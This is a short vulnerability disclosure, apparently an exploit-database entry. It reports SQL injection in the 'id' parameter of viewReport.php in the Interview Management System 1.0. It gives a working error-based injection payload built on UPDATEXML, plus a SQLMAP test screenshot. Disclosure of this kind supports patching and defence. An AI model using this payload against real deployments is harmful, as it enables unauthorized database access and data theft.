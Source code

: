 # Interview Management System-SQL injections

### Date: 2022-08/05



### Exploit Author: anx0ing@gmail.com



### Vendor Homepage: 

[https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

https://www.sourcecodester.com/php/14585/interview-management-system-phpmysqli-full-source-code.html



### Version: 1.0



### /viewReport.php

> `id`Parameters have SQL injection

**payload**

```
/viewReport.php?id=(UPDATEXML(9729,CONCAT(0x2e,0x716b707071,(SELECT (ELT(9729=9729,1))),0x7162766a71),7319))
```

**SQLMAP Test**

![image-20220806011354792](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220806011354792.png)

